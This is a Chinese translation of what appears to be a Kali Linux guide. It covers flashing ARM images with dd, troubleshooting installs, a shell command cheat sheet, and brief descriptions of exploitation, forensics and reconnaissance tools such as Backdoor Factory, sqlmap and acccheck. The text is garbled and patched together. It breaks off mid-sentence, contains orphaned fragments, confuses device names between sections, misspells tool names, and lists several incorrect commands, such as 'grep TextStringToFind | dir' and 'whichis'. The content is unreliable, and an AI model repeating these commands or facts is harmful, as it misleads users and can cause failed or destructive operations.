# BeagleBone Black Kali Linux – 预构建版本

以下指令将帮助您在 BeagleBone Black 上安装 Kali Linux

- 1. 准备一个快速的 8 GB 微 SD 卡来安装 Kali Linux。我们推荐使用 Class10 类 SD 卡。
- 2. 从 https://www.offensive-security.com/kali-linux-arm-images/ 下载适用于 BeagleBone Black 的 Kali Linux ISO。
- 3. 现在您可以使用 `dd` 工具将此镜像写入 SD 卡。在我们展示的示例中，我们将把 Kali Linux 安装在路径为 `/dev/sdb` 的 SD 卡上。您可以根据自己的需求更改此。

注意：这将擦除您 SD 卡上的所有内容。选择错误的磁盘设备还可能导致设备的固态硬盘被擦除。

```
root@kali:~ dd if=kali-2.1.2-bbb.img of=/dev/sdb bs=512k
```

注意：这将擦除您 SD 卡上的所有内容。选择错误的磁盘设备还可能导致设备的固态硬盘被擦除。

`dd` 操作完成后，您可以在保持 SD 卡插入的情况下启动 BeagleBone Black。您可以使用用户名 ‘root’ 和密码 'toor' 登录 Kali 桌面。

注意：Kali Linux 的所有 ARM 镜像都预配置了相同的公钥。因此，建议在安装完成后尽快更改公钥。您可以使用以下命令进行操作。

```
root@kali:~ rm /etc/ssh/ssh_host_*
root@kali:~ dpkg-reconfigure openssh-server
root@kali:~ service ssh restart
```

## BeagleBone Black Kali Linux – 自定义构建

如果您是一个喜欢冒险并喜欢软件开发的人，并想要对 ODROID-XU3 的 Kali Linux 镜像进行一些自定义（例如更改内核配置），可以访问 https://gitlab.com/ilinux/build-scripts/kali-arm 查看适用于 ARM 设备的 Kali 脚本。使用的脚本是 `bbb.sh`。

## Kali Linux – HP Chromebook

HP Chromebook 是一款 ARM 设备，同样是一款超便携式笔记本电脑。为它制作 Kali 镜像是一项挑战，但最终实现了。HP Chromebook 具有以下配置：

- 1. 1.7 GHz 双核 Exynos 5250 处理器
- 2. 2GB 内存。

HP Chromebook 可以使用外部 SD 卡进行 Kali Linux 安装，使内部磁盘安全安全不受影响。

### Chromebook 上的 Kali – 用户说明

以下指令将帮助您在 Chromebook 上安装 Kali Linux。

- 1. 准备一个良好的快速 8 GB USB 闪盘来安装 Kali Linux。
- 2. 通过将 Chromebook 置于开发者模式启用 USB 启动。
- 3. 从 https://www.offensive-security.com/kali-linux-arm-images/ 下载适用于 HP Chromebook 的 Kali Linux ISO。
- 4. 现在您可以使用 `dd` 工具将此镜像写入 SD 卡。在我们展示的示例中，我们将把 Kali Linux 安装在路径为 `/dev/sdb` 的 SD 卡上。您可以根据自己的需求更改此。

> 注意：这将擦除您 SD 卡上的所有内容。选择错误的磁盘设备还可能导致设备的固态硬盘被擦除。

```
dd if=kali-chromebook.img of=/dev/sdb bs=512k
```

此过程可能需要一段时间，具体取决于您的设备速度和镜像大小。

完成 Kali Linux 安装所需的时间取决于 SD 卡的速度和 Kali Linux 镜像的大小。

`dd` 操作完成后，您可以在插入 USB 闪盘的情况下启动 HP Chromebook。当出现启动提示时，按下 CTRL+U 将进入 Kali。

### HP Chromebook 上的 Kali – 开发者指令

如果您是一个喜欢冒险并喜欢软件开发的人，并想要对 ODROID-XU3 的 Kali Linux 镜像进行一些自定义（例如更改内核配置），可以访问 https://github.com/ilinux/build-scripts/kali-arm 查看适用于 ARM 设备的 Kali 脚本。使用的脚本是 `chromebook-arm`。

## Kali Linux – CuBox

CuBox 是一款 ARM 设备，成本低，且由社区支持。价格实惠让它受欢迎。

可以使用外部 SD 卡为 CuBox 进行 Kali Linux 安装。

### CuBox 上的官方 Kali – 易用版

这些指令将帮助您在。

- 1. 准备一个快速的 8 GB SD 卡以在上面上安装 Kali Linux。
- 2. 从 https://www.offensive-security.com/kali-linux-arm-images/ 下载适用于 CuBox 的 Kali Linux ISO。
- 3. 现在您可以使用 `dd` 工具将此镜像写入 SD 卡。在我们展示的示例中，我们将把 Kali Linux 安装在路径为 `/dev/sdb` 的 SD 卡上。您可以根据自己的需求更改此。

注意：这将擦除您 SD 卡上的所有内容。选择错误的磁盘设备还可能导致设备的固态硬盘被擦除。

```
root@kali:~ dd if=kali-1.0.3-cubox.img of=/dev/sdb bs=512k
```

此过程可能需要一段时间，具体取决于您的设备速度和镜像大小。

完成 Kali Linux 安装所需的时间取决于 SD 卡的速度和 Kali Linux 镜像的大小。

`dd` 操作完成后，您可以在保持 SD 卡插入的情况下启动 CuBox。您可以使用用户名 ‘root’ 和密码 ‘toor’ 登录 Kali 桌面。

### CuBox 上的 Kali – 长版本

如果您是一个喜欢冒险并喜欢软件开发的人，并想要对三星 ARM Chromebook 2 的 Kali Linux 镜像进行一些自定义（例如更改内核配置），可以访问 https://gitlab.com/kalilinux/build-scripts/kali-arm 查看适用于 ARM 设备的 Kali 脚本。使用的脚本是 `cuboxsh`。

## Kali Linux – ODROID U2

ODROID U2 是一款 ARM 设备，硬件较为复杂。

### ODROID U2 上的 Kali – 用户说明

以下指令将帮助您在 ODROID U2 上安装 Kali Linux。

- 1. 准备一个快速的 8 GB微 SD 卡来安装 Kali Linux。我们推荐使用 Class10 类 SD 卡。
- 2. 从 https://www.offensive-security.com/kali-linux-arm-images/ 下载适用于 ODROID U2 的 Kali Linux ISO。
- 3. 现在您可以使用 `dd` 工具将此镜像写入 SD 卡。在我们展示的示例中，我们将把 Kali Linux 安装在路径为 `/dev/sdb` 的 SD 卡上。您可以根据自己的需求更改此。

注意：这将擦除您 SD 卡上的所有内容。选择错误的设备还可能导致设备的固态硬盘被擦除。

```
dd if=kali-$vers-odroid.img of=/dev/sdb bs=1M
```

此过程需要一些时间，取决于你的设备速度和镜像大小。

完成 Kali Linux 安装的时间取决于 SD 卡的速度和 Kali Linux 镜像的大小。

在 `dd` 操作完成后，你可以在保持 SD 卡插插入状态下启动 ODROID U2。你可以使用用户名 'root' 和密码 'toor' 登录 Kali 桌面。

### ODROID U2 上的 Kali Linux – 开发者指南

如果你是一个乐于冒险并喜欢钻研软件开发的人，并想要对 ODROID U2 的 Kali Linux 镜像进行一些自定义（例如更改内核配置），你可以访问 https://gitlab.com/kalilinux/build-scripts/kali-arm 查看适用于 ARM 设备的 Kali 脚本。应使用的脚本是 `odroid-u2.sh`。

## 第 6 章

## 安装故障排除

### Kali Linux 安装失败

Kali Linux 安装可能由于多种原因失败。ISO 文件下载不完整或损坏、目标系统磁盘空间不足等都是导致 Kali Linux 安装失败的某些原因。在本章中，你将学习遇到的常见错误以及如何进行故障排除。我们将介绍“红屏”错误，这种错误通常在 Kali Linux 安装失败时遇到，它是发生问题的指示。

红屏内容如下：


> “某个安装步骤失败。你可以尝试从菜单重新运行失败的项目，或跳过它并选择其他。失败的步骤是：<失败项目的描述>”

如果你点击“继续（`continue`）”，你将被重定向到 Debian 安装程序主菜单。在主菜单上，导航到“保存调试日志（`save debug logs`）”：

点击“继续”按钮理应带你进入 Debian 安装程序主菜单。从该主菜单，浏览到“`save debug logs`”。

在这里，有几种方法可以将安装日志文件传输到另一个系统或磁盘。最简单的方法是在正在安装的源机器上启动 Web 服务器。

你将看到一个屏幕，上面有一个带有 3 个选项的问题。

### 应该如何保存或传输调试日志？

- 1. 软盘（Floppy）
- 2. 网络（Web）
- 3. 挂载的文件系统（Mounted file system）

选择“`web`”选项将启动 Web 服务器，你可以通过该服务器下载或查看安装日志。

将启动一个简单的 Web 服务器，屏幕将告知你访问日志的 URL。

选择此选项后，将创建一个 Web 服务器，你可以从该 URL 查看或下载日志。

对日志进行分析，以理解是否存在异常。检查你是否能看到任何错误消息或警告，这些可能是导致安装失败的原因。在特定情况下，安装 Kali 的机器磁盘空间不足，导致安装失败，这可以在 `syslinux` 文件的末尾看到。

```
Aug 19 23:45:05 base-installer: error: The tar process copying the live system failed (only 152937 out of 286496 files have been copied, last file was ).
```

```
Aug 19 23:45:05 main-menu[927]: (process:7553): tar: write error: No space left on device
```

```
Aug 19 23:45:05 main-menu[927]: WARNING **: Configuring 'live-installer' failed with error code 1
```

```
Aug 19 23:45:05 main-menu[927]: WARNING **: Menu item 'live-installer' failed.
```

```
Aug 19 23:50:23 main-menu[927]: INFO: Modifying debconf priority limit from 'high' to 'medium'
```

```
Aug 19 23:50:23 debconf: Setting debconf/priority to medium
```

```
Aug 19 23:56:49 main-menu[927]: INFO: Menu item 'save-logs' selected
```

# 无线驱动程序故障排除

如果你不知道哪里查找驱动程序，在 Kali Linux 上排除无线驱动问题可能会令人沮丧。在本章中，我们将学习如何排除无线问题。无线驱动问题最准确、最详细的来源可以在这里找到

`http://www.aircrack-ng.org/documentation.htm`

如果你阅读 Aircrack-ng 的文档，90% 的问题都可以解决。你只需要在将卡设置为监听模式之前运行 `airmon-ng check kill`。

无线设备的错误消息通常会告诉你哪里出了问题以及如何修复。如果没有，你可以转向 Google 搜索。

## 第 7 章

## Kali Linux 的现实世界应用

Kali Linux 在现实世界中有多种应用。如果你想为你的公司建立一个产生收入的商业模式（你的公司拥有使用 Kali Linux 在安全领域工作的专家），将这些应用包含在销售方案中是至关重要的。

让我们谈谈一个小型企业的例子。全球每 10 秒就有一台电脑被黑客攻击。很多人……（文本未完）

- `Ctrl + A` 跳到当前正在输入的命令行的开头
- `Ctrl + E` 跳到当前正在输入的命令行的结尾
- `Ctrl + U` 删除光标之前的行并将其复制到特殊剪贴板
- `Ctrl + K` 删除光标之后的行并将其复制到特殊剪贴板
- `Ctrl + Y` 从包含 `Ctrl + U` 和 `Ctrl + K` 复制数据的特殊剪贴板中粘贴
- `Ctrl + T` 用于交换光标紧之前的两个字符
- `Ctrl + W` 删除当前行光标左侧的参数或单词
- `Ctrl + D` 退出并注销当前会话

# 其他实用命令

- `apropos subject` 用于列出命令中该主题的帮助页
- `man -k keyword` 帮助显示包含关键词的帮助页
- `man command` 显示命令的帮助页
- `man -t man | ps2pdf -> man.pdf` 将帮助页保存为 PDF 文件
- `which command` 显示命令的完整路径
- `time command` 显示命令执行所需的时间
- `whichis app` 显示应用程序安装的所有可能位置
- `which app` 显示默认运行的程序的完整路径

# 搜索命令

- `grep pattern files` 允许在文件中搜索指定的模式
- `grep -r pattern dir` 允许在目录中递归搜索模式
- `command | grep pattern` 允许在命令的输出中搜索模式
- `locate file` 在系统上所有可能的位置查找文件
- `find / -name filename` 从根目录直接查找名为 `filename` 的文件
- `find / -name "filename*"` 从根目录直接查找包含字符串 `filename` 的文件
- `locate filename` 假设你已经使用了 `updatedb` 命令，则使用 `locate` 命令查找名为 `filename` 的文件
- `updatedb` 此命令更新根目录下存在的所有文件系统上所有文件的数据库
- `which filename` 查找包含文件名 `filename` 的子目录
- `grep TextStringToFind | dir` 从目录 `dir` 开始搜索所有包含 `TextStringToFind` 的文件

# 文件权限

- `chmod oct file` 将文件权限更改为八进制。通过添加 4 表示读取(`r`)、2 表示写入(`w`)、1 表示执行(`x`)，可以分别为用户、组和世界进行设置。

示例：

`chmod 777` 为用户、组和世界分配读、写、执行权限

`chmod 755` 为用户分配读、写、执行权限，为组和世界分配读和执行权限

## 文件命令

- `ls` 列出目录内容
- `ls -l` 以长格式列出当前目录内容
- `ls -aC` 以长格式分列列出当前目录内容
- `ls -F` 列出当前目录内容并显示文件类型
- `ls -al` 列出所有文件包括隐藏文件
- `cd dir` 从当前目录切换到 `dir` 目录
- `cd` 切换到家目录
- `mkdir dir` 创建新目录并命名为 `dir`
- `pwd` 显示当前目录的完整路径
- `rm name` 删除名为 `name` 的或目录
- `rm -r` 删除名为 `dir` 的目录
- `rm -f file` 强制删除文件 `file`
- `rm -rf` 强制删除 `dir` 及其所有子目录
- `cp file1 file2` 将 `file1` 的内容复制到 `file2`
- `cp -r dir1 dir2` 将 `dir1` 复制到 `dir2`，如果 `dir2` 不存在则创建
- `cp file /home/dirname` 将文件 `file` 复制到路径 `/home/dirname`
- `mv file /home/dirname` 将文件 `file` 移动到路径 `/home/dirname`
- `mv file1 file2` 将 `file1` 重命名为 `file2`
- `ln -s file link` 为给定文件创建符号链接 `link`
- `touch file` 创建或更新名为 `file` 的新文件
- `cat > file` 将标准输入重定向到文件
- `cat file` 打印文件内容
- `more file` 分页显示文件内容，可以使用空格键继续到下一页
- `head file` 输出文件的前 10 行
- `head -20 file` 输出文件 `file` 前 20 行
- `tail file` 输出文件的最后 10 行
- `tail -20 file` 输出文件 `file` 最后 20 行
- `tail -f file` 根据文件增长实时输出文件 `file` 的内容，并显示最新的 10 行

## 压缩命令

- `tar cf file.tar files` 创建一个名为 `file.tar` 的包含文件的归包
- `tar xf file.tar` 从文件 `file.tar` 中提取内容
- `tar czf file.tar.gz` 使用 GZip 压缩创建一个名为 `file.tar.gz` 的归包
- `tar xf file.tar.gz` 使用 GZip 从 `file.tar.gz` 中提取内容


## tar 命令
`tar cjf file.tar.bz2` 使用 BZip2 压缩创建一个名为 `file.tar.bz2` 的归包
`tar xjf file.tar.bz2` 使用 BZip2 从 `file.tar.bz2` 中提取内容

## gzip 命令
`gzip file` 压缩给定文件
`gzip -d file` 解压缩给定文件

## 打印命令
`lpq` 显示队列中的当前作业
`lprm` 移除队列中的作业

## 网络命令
`ifconfig` 显示所有设备的 IP 地址
`iwconfig` 设置无线参数
`iwlist` 显示无线附加信息
`ping host` 探测主机并显示结果
`whos domain` 打印 WHOIS 信息
`dig domain` 打印 DNS 信息
`dig -x file` 获取反查
`wget file` 下载文件
`wget -c` 继续下载

## SSH 命令
`ssh user@host` 连接到特定主机
`ssh -p port user@host` 连接到特定端口的主
`ssh-copy-id user@host` 将密钥复制到主机以实现免密登录

## 用户管理命令
`adduser accountname` 创建一个新用户 `accountname`
`passwd accountname` 为用户 `accountname` 设置密码
`su` 从当前会话登录超级用户
`exit` 退出超级用户返回普通用户

## 进程管理命令
`ps` 显示所有活动进程
`top` 显示所有运行进程
`kill pid` 根据 ID 杀死进程
`killall proc` 杀死所有名为 `proc` 的进程
`bg` 列出所有停止的作业或后台作业。可恢复后台作业
`fg` 将最近的后台作业调至前台
`fg n` 将名为 `n` 的作业调至前台

## 源码安装命令
`./configure`
`make`
`make install`
`dpkg -i pkg.deb` 安装 DEB 包（Ubuntu/Debian/Linux Mint）
`rpm -Uvhh pkg.rpm` 安装 RPM 包（Fedora/Redhat）

## 停止和启动命令
`shutdown -h now` 现在关闭但不重启
`halt` 停止所有进程
`shutdown -r 5` 5 分钟后关闭并重启
`shutdown -r now` 立即关闭并重启
`reboot` 停止所有进程并重启系统
`startx` 启动 X 系统

## 10. 密码攻击工具
我们将逐一介绍 Kali Linux 中适用于所有类别的工具，并理解每个工具的作用以及它们将如何为安全领域提供帮助。

## 漏洞利用工具
在计算机网络（通常通过互联网）中，存在许多 Web 应用程序，这些应用程序使得系统容易受到恶意代码或服务器上公开访问的开放端口的影响。漏洞利用工具可以帮助你针对系统并利用该系统中的漏洞，从而帮助你修复漏洞。让我们逐一查看 Kali Linux 中提供的所有漏洞利用工具。

### Armitage
Armitage 由 Raphael Mudge 开发，作为 Metasploit 框架的 GUI 前端使用。Armitage 是一款推荐漏洞利用的工具，作为一种图形化形式提供的网络攻击管理工具，它非常简单简单。它是一个开源且免费的安全工具，主要以其在共享会话中提供的数据以及通过单个 Metasploit 实例提供的通信而闻名。Armitage 帮助用户启动漏洞利用和扫描，获取漏洞利用建议，并探索 Metasploit 框架中提供的高级功能。

### 后门工厂 (BDF)
Backdoor Factory 是研究人员和安全专业人员常用的工具。该工具允许用户将其所需的代码包含在系统或应用程序的可执行二进制文件中，如果没有添加额外的代码，则二进制文件将以正常状态继续执行。
你可以使用终端上的以下命令在你的 Kali Linux 系统上安装此工具。
```
apt-get update
apt-get install backdoor-factory
```

### 浏览器漏洞利用框架 (BeEF)
Browser Exploitation Framework 是一种用于在 Web 浏览器上测试漏洞的渗透测试工具。观察发现，Web 浏览器已成为客户端漏洞攻击的目标。BeEF 帮助用户分析客户端的这些攻击向量。与其他工具不同，BeEF 专注于评估作为“敞门”的 Web 浏览器，并跨越了网络层和客户端系统。

### Commix
Commix（Command Injection exploit 的缩写）为渗透测试人员、Web 开发人员和研究人员提供用例，它在简单环境中测试 Web 应用程序。它基本上允许用户发现 Web 应用程序中与命令注入相关的错误、缺陷或漏洞。该工具可以让你轻松识别并利用命令注入漏洞。Commix 工具是使用 Python 语言开发的。

### Crackle
Kali Linux 中的 Crackle 工具是一种暴力破解实用程序，用于破解和拦截蓝牙设备之间的流量。大多数蓝牙设备具有 4-6 位的配对代码，这些是加密格式。使用 Crackle，如果两个设备之间的配对过程被拦截，这些代码就可以被解密，从而允许你监听两个设备之间发生的所有通信。

### jboss-autopwn
JBoss Autopwn 是一种用于 JBoss 应用程序的渗透测试工具。Github 上的 JBoss Autopwn 版本已经过时，最后更新是2011年。这是一个历史工具，现在不再经常使用。

### Linux Exploit Suggester
Linux Exploit Suggester 工具提供了一个脚本，跟踪漏洞并显示所有可能的利用，帮助用户在渗透测试期间获取 root 权限。
该脚本使用 `uname -r` 命令来查找 Linux 操作系统的内核版本。此外，它还会提供 `-k` 参数，用户可以通过它手动输入 Linux 操作系统的内核版本。

### Maltego Teeth
Maltego 是一种用于数据挖掘的交互式工具。它提供了一个交互式界面并输出图表，有助于链路分析。由于它允许链路分析，Maltego 用于互联网调查，以寻找分散在互联网各个 Web 页面上的信息之间的关系。Maltego Teeth 是后期开发的，增加了一个功能，使渗透测试人员能够使用图形界面进行密码破解、SQL 注入和漏洞检测。

### sqlmap
`sqlmap` 是一个开源的 Kali 工具，用于渗透测试。它允许自动检测 SQL 注入漏洞并利用该漏洞来接管数据库服务器。它带有一个非常强大的检测引擎、一系列可以帮助高级渗透测试人员的工具，以及帮助获取信息（如数据库指纹、从数据库检索数据、访问操作系统文件系统以及在操作系统上执行命令）的。

### Yersinia
Yersinia 是一种检测网络协议漏洞并利用其漏洞的工具。它是一个用于测试和分析网络及系统部署的坚实框架。它包含了二层攻击，利用了给定网络中各种二层协议的弱点，从而允许渗透测试人员检测二层网络中的缺陷。Yersinia 在渗透测试期间用于对诸如 DHCP 服务器、交换机等使用生成树协议（STP）的网络设备发起攻击。

### Cisco-global-exploiter
Cisco Global Exploiter (CGE) 工具是一种安全测试利用引擎/工具，简单、快速且先进。Cisco 交换机和路由器有 14 个可以使用 Cisco Global Exploiter 工具利用的漏洞。Cisco Global Exploiter 基本上是一个 perl 脚本，通过命令行驱动，并带有一个简单易用的前端。

### Cisco-torch
Cisco Torch 是一种漏洞利用工具，它与普通扫描器的不同之处在于，它可以在特定时间启动多次并行扫描，从而使任务完成更快、更高效。除了网络层，它还帮助识别 OSI 模型应用层中的系统指纹。这是即使是像 NMAP 这样的工具也无法做到的。

## 取证工具
我们现在列出并学习 Kali Linux 中用于取证领域的工具。

### Binwalk
Binwalk 工具在处理二进制镜像文件时非常有用。它允许你扫描镜像文件中的可能嵌入的可执行代码。对于了解操作的用户来说，这是一个非常强大且实用的工具，因为它可以检测隐藏在固件或镜像文件中的目标信息。
Binwalk 工具使用 python 开发，并利用 python 的 `libmagic` 库，因此是为 Unix 文件系统创建魔数签名的合适工具。为了让调查领域的测试人员使用更舒适，它包含了全球范围内常见的签名数据库。这使其成为检测异常的便利工具。

### Bulk-extractor
Bulk-extractor 工具是一个有趣的工具，用于调查人员从数字文件中提取特定数据。该工具帮助检索 URL、电子邮件地址、信用卡/借记卡号等。该工具可以扫描文件、目录甚至磁盘镜像。最棒的是，即使数据部分损坏或处于压缩格式，该工具仍然能深入寻找数据。
该工具的另一个有趣功能是，如果存在反复的数据（例如电子邮件地址、URL），你可以为它们创建搜索模式，并以直方图的形式显示。它还会为给定的数据集创建一个发现的单词列表，这些单词可能用于破解加密文件的密码。


替换，以及最新的删除。这些只是该小工具可以做的几件事。它看起来是一个简单的工具，但它所拥有的力量对于调查来说是无价的。

## p0f

`p0f`工具可以帮助用户了解目标主机的操作系统，通过拦截传输的数据包并对其进行检查，无论目标主机是否位于防火墙之后。`p0f`的使用不会导致网络流量的增加，没有名称查找，以及可能发现的探测。鉴于这些功能，`p0f`在用户手中可以检测防火墙的存在、`NAT`设备的使用以及负载均衡。

## pdf-parser

`pdf-parser`工具用于解析`PDF`文件以分类元素。该工具的输出将是一个`PDF`文件。人们可能不推荐将其用于`PDF`编写器的案例，但它的用例是，当你可能怀疑某些嵌入了脚本的`PDF`文件。

## Dumpzilla

`Dumpzilla`工具是一个用`Python`开发的工具。其目的是从`SeaMonkey`和`Mozilla Firefox`等网络浏览器中提取可能感兴趣的信息。

## ddrescue

`ddrescue`工具是一个救星工具。它可以帮助从一个块设备（如硬盘或`CD-ROM`）复制数据到另一个块设备。但`ddrescue`之所以是救星，是因为它首先避免了源上的任何错误。`ddrescue`工具的基本操作是完全自动的，这意味着一旦启动了它，不需要任何提示即可停止或重启。通过使用`ddrescue`的功能，数据将以高效的方式恢复，并且你可以从同一个点再次开始。

## Foremost

你是否曾经故意或无意删除过文件？`Foremost`是一个开源包，易于使用，并帮助恢复已格式化的磁盘数据。它可能无法帮助恢复文件名。`Foremost`一个有趣的事实是它可以通过引用文件头或文件尾来恢复数据，使其成为一种快速可靠的工具。黑客发现所有信息都是有帮助。

## Galleta

`Galleta`工具可以帮助解析你跟踪的流量并将其转换为电子表格格式以供未来参考。在网络犯罪案例中，`Galleta`工具非常方便，因为它有助于结构化从流量中检索的数据。对于这些分析，`Galleta`工具证明是很有用的。

## Volatility

当涉及到内存取证时，`Volatility`是一个非常流行的工具。它用`Python`语言开发，便于从`RAM`等易失性内存中提取数据。它兼容几乎所有的`Windows`变体以及`Linux`和`Android`。工具接受各种格式的内存储，如崩溃储、睡眠快照等。该工具允许你了解主机的运行状态，并对主机进行调查。运行期间的密码存储在`RAM`中。因此，通过检索密码详情，`Volatility`成为硬盘上加密文件调查的救星。这有助于减少特定案例所需的调查时间。

## Autopsy

`Sleuth Kit`是一个数字取证工具包，它是开源的，可以用于`NTFS`、`EXT2`、`EXT3`等文件系统。为`Sleuth Kit`（这是一个命令行工具）开发的图形界面被称为`Autopsy`。`Autopsy`具有哈希过滤、时间线分析、文件系统分析和关键词搜索等功能。它是非常多功能的，因为它允许对现有集进行扩展功能设置。当你启动`Autopsy`工具时，你可以启动一个新案例或使用已有的案例。

## Xplico（注：原文为ploico）

`Xplico`是一个取证工具，它是开源的，用于网络取证。如果你希望从使用网络协议或互联网的应用程序中提取数据，`Xplico`就是你的工具。`Xplico`支持所有流行的网络协议，如`HTTPS`、`POP`、`IMAP`、`SIP`、`UDP`、`TCP`等。它支持`IPv4`和`IPv6`。`SQLite`数据库用于存储工具的输出数据。

## Information Gathering Tools

任何攻击的开始都始于信息收集阶段。当你收集了关于目标的大量信息，攻击就变成了一个简单过程。拥有目标信息也会提高攻击的成功率。黑客发现各种信息都是有用的。

信息收集过程包括：

1. 收集有助于社会工程并最终有助于攻击的信息。
2. 理解作为攻击目标的网络和计算机范围。
3. 识别并理解攻击的完整表面，即暴露的进程和系统。
4. 识别暴露的系统服务，并尽可能多收集关于它们的信息。
5. 查询特定服务以获取用户名等有用数据。

我们现在将逐介绍`Kali Linux`中可用的信息收集工具。

## Nmap and Zenman（注：原文为Zenman）

道德黑客是`Kali Linux`中的一个阶段，为此使用了`NMap`和`ZenMap`工具。`NMap`和`ZenMap`基本上是同一个工具。`ZenMap`是`NMap`工具的图形界面，在命令行工作。

`NMap`工具是一个用于安全审计和网络发现的免费工具。除了渗透测试员，它还被系统管理员和网络管理员用于日常任务，例如监控服务器或服务的运行时间以及管理服务升级计划。

`NMap`通过使用原始`IP`数据包识别网络上的可用主机。这有助于`NMap`识别托管在主机上的服务，包括应用程序的名称和版本。基本上，它在网络上帮助识别的最重要的应用程序是设置在主机上的过滤器或防火墙。

## Stealth Scan（隐身扫描）

隐身扫描也广俗称为半开放扫描或`SYN`扫描。它被称为半开放扫描，是因为它避免了完成通常的`TCP`三握手。它的工作原理是攻击者向目标主机发送一个`SYN`数据包。目标主机会确认`SYN`并返回`SYN/ACK`。如果收到`SYN/ACK`，可以安全地假设到目标主机的连接将完成，且端口是开放并监听的。如果收到的是`RST`，则可以假设该端口是关闭的或在目标主机上不活跃。

## accccheck

`acccheck`工具开发了一个由密码字典组成的攻击工具，用于使用`SMB`协议的`Windows`身份验证过程。`acccheck`基本上是一个封装脚本，它是注入到`smbclient`的二进制文件中，因此其执行依赖于`smbclient`二进制文件。

服务器消息块（`SMB`）协议是微软用于网络文件共享的一种实现，通常被称为广为人知的微软`SMB`协议。

随后，它被扩展到`SMB`“进程间通信”(`IPC`)系统，该系统实现了命名管道，是程序员可以访问的最早进程间服务之一，并作为多个服务进行身份验证的继承手段，因为所有服务都将使用在首次连接到`SMB`服务器时录入相同凭据。

## Amap

`Amap`是一种下一代扫描工具，它在命令行语法中提供了大量的选项和标志，使得即使在运行端口不同的情况下，也能识别应用程序和进程。

例如，`Web`服务器默认接受`80`端口的连接。但大多数公司可能会将此端口更改为其他值（例如`1253`）以确保服务器安全。这种更改可以轻易被`Amap`发现。

此外，如果服务或应用程序不是基于`ASCII`，`Amap`仍然能够发现它们。`Amap`还有的一组有趣的工具，能够发送自定义数据包，从而从目标主机生成特定的响应。

与其他网络工具不同，`Amap`不仅仅是一个简单的扫描器（其开发初衷仅仅是通过探测网络来检测网络上的活动主机）。`Amap`配备了`amaprap`，这是一个向端口发送虚假且完全随机数据的模块。目标端口可以是`UDP`、`TCP`、`SSL`等。其动机是强制目标端口生成响应。

## CaseFile

我们在之前的章节中讨论过`Maltego`。`CaseFile`被称为`Maltego`的“小弟妹”。`CaseFile`具有与`Maltego`相同的创建图表的能力，但它不能在其运行转换（`transforms`）。尽管如此，你可以快速添加数据并使用`CaseFile`将其链接。`CaseFile`工具适用于那些从离线源获取数据并工作的调查员，他们所需的数据可以通过自动化或编程进行查询。这些调查员是从其他团队成员处获取数据，并利用这些数据根据他们的调查结果构建信息地图的。

有大量的`Maltego`用户使用`Maltego`尝试从离线调查中构建图形化数据，这就是`CaseFile`的诞生。由于不需要`Maltego`提供的转换功能，真实需求只是以更灵活的方式使用`Maltego`的绘图能力，`CaseFile`被开发了出来。

`CaseFile`作为视觉智能的一种应用，有助于确定现实世界中不同类型信息之间的关系、连接和链路。`CaseFile`让你通过图形化地绘制它们之间的关系，从而理解那些可能相隔多个跨度的数据之间的连接。此外，`CaseFile`随带了许多对调查非常有用的实体，使其变得非常高效。你还可以将自定义实体添加到`CaseFile`中，允许你将此工具扩展到你自己的自定义数据集中。

## braaa


`Braa` 是一种用于扫描大量简单网络管理协议 (`SNMP`) 的工具。该工具允许你进行 `SNMP` 查询，但与其他一次向 `SNMP` 服务进行单次查询的工具不同，`braa` 能够使用单个进程同时对多个主机进行查询。`braa` 的优势在于它扫描主机的速度非常快，而且使用的系统资源非常有限。

与其他需要 `SNMP` 库运行的 `SNMP` 工具不同，`braa` 实现并维护了自己的 `SNMP` 堆栈。该实现非常复杂且凌乱。支持的数据类型有限，且在任何情况下都无法标准。然而，`braa` 的开发是为了成为一个快速工具，事实确实如此。

## dnmsmap

`dnmsmap` 是最初于 2006 年出现的工具，灵感来自 Paul Craig 的虚构小说《无人看见的窃偷》。

作为渗透测试人员在信息收集阶段使用的工具，`dnmsmap` 帮助发现目标公司的 IP、域名、网块、电话号码等。

`Dnsmap` 还有助于进行子域名爆破，这在 DNS 区域传输（zone transfers）无效的情况下很有帮助。现在现在不再允许进行区域传输，这使得 `dnmsmap` 成为当务之急。

## DotDotPwn

`dotdotpwn` 工具可以简单地定义为模糊器（fuzzer）。什么是模糊器？模糊器是一种针对软件漏洞调试和穿透（penetrating through）的测试工具。它扫描代码并寻找漏洞、后门、坏数据、验证错误、可能不正确的参数以及编程的其他异常。

每当软件遇到异常时，软件可能会变得无响应，从而为漏洞为攻击打开大门。例如，如果你是一个目标是公司 Web 服务器的攻击者，在 `dotdotpwn` 的帮助下，你将找到 Web 服务器代码中的一个漏洞。也许服务器昨晚刚刚进行了最新的 HTTP 更新。在 Web 服务器上使用模糊器会向你显示存在一个关于数据验证的漏洞，这为 DoS 攻击打开了大门。你现在可以利用这个漏洞，导致服务器崩溃，并且公司真实的员工将被拒绝访问服务器。使用模糊器可以发现许多此类错误，技术在市场上发布新产品时出现错误是非常常见的，而且识别并修复这些错误需要时间。

另一个例子是针对 SQL 的攻击，称为 SQLi，其中“i”代表注入（injection）。SQL 注入攻击通过在网站上可用的 Web 表单注入 SQL 数据库查询来实现。结论是，软件永远是有漏洞的。

## Fierce

`Fierce` 是一个 Kali 工具，用于扫描端口和映射网络。跨多个网络发现主机名（hostnames）以及对非连续的 IP 空间进行扫描，可以使用 `Fierce` 实现。它是一个类似于 `Nmap` 的工具，但在 `Fierce` 的情况下，它专门用于公司内部网络。

一旦通过渗透测试定义了目标网络，`Fierce` 会对网络中的域名运行大量测试，并获取攻击者可以分析的重要信息。

`Fierce` 具有以下功能：

- 通过自定义和内置测试列表进行破解攻击的能力
- 发现名称服务器
- 区域传输攻击
- 扫描内部和外部 IP 范围
- 修改 DNS 服务器进行反向查找

## Wireshark

`Wireshark` 是一个 Kali 工具，是一种开源网络分析器，运行在 Linux、BSD、OS X 和 Windows 等多个平台上。

它帮助人们理解网络的功能，使其在政府基础设施、教育行业和其他公司中适用。

它类似于 `tcpdump` 工具，但 `Wireshark` 高出一个水平，因为它有一个图形界面，通过该界面你可以过滤并分析捕获的数据，这意味着进一步分析数据的时间更短。还有一个名为 `tshark` 的文本版本，具有几乎相同的功能。

`Wireshark` 具有以下功能：

- 界面具有用户friendly GUI
- 数据包实时捕获和离线分析
- 支持 Gzip 压缩和提取
- 全协议检查
- 完整的 VOIP 分析
- 支持 IPsec、Kerberos、SSL/TLS、WPA/WPA2 解密

`URLCrazy` 支持多种键盘布局，可以检查特定域名是否被占用，并计算拼写错误的流行程度。

# The Harvester

